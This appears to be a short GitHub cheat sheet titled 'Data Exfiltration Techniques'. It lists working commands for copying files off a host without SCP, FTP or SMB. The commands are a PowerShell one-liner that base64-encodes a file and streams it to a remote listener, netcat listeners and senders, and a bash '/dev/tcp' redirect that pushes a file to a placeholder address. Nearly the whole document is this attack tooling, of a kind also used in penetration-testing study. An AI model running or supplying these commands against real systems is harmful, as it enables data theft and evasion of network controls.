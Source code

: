 # Data Exfiltration Techniques
#### This is a list of some data exfiltration techniques if you don't have access to SCP, FTP, SMB, etc.

***

### Windows To Linux

###### Setup NetCat listener on Linux host:

```
nc -nlvp %ListeningPort% | base64 -d > file.ext
```

###### On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close()
```

###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

***

### Linux To Linux

###### Setup NetCat listener on Linux host:

```
nc -nlvp port > file.ext
```

###### On the Linux host connect back with NetCat:

```
nc -q 0 %ListenerAddress% %ListeningPort% < file.ext 
```

###### If NetCat is unavailable, this can be done with bash:

```
cat file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```
